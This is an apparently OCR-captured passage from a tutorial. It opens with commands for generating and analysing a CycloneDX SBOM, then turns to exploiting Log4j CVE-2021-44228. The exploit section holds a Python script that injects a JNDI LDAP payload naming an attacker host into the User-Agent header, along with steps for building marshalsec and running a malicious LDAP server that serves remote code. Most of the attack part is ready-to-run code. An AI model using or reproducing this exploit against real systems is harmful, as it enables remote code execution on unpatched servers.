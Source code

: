 2. **Generate the SBOM:**

```bash
mvn cyclonedx:makeAggregateBom
```

3. **Analyze the SBOM:**

The SBOM will be generated in `target/bom.xml`. You can use tools like Dependency-Track or CycloneDX CLI to analyze the SBOM and identify CVEs.

```bash
cycloneDXBomUtility analyze -i target/bom.xml
```

---

### Exploiting the Log4j Vulnerability

#### Python Script to Exploit Log4j CVE-2021-44228:

```python
import requests

# Target URL
url = "http://localhost:8080"  # Adjust to the target's actual address

# Malicious payload
payload = '${jndi:ldap://malicious-server.com/a}'

# Sending the payload
headers = {
    'User-Agent': payload
}

response = requests.get(url, headers=headers)
print("Exploit sent, check your LDAP server for interactions.")
```

#### Running the Exploit

1. **Set Up a Malicious LDAP Server:**

You can use a tool like `marshalsec` to set up a malicious LDAP server that serves the payload.

```bash
git clone https://github.com/mbechler/marshalsec.git
cd marshalsec
mvn clean package -DskipTests
java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://your-malicious-server.com/#Exploit"
```

2. **Run the Exploit Script:**

```bash
python exploit_log4j.py
```

---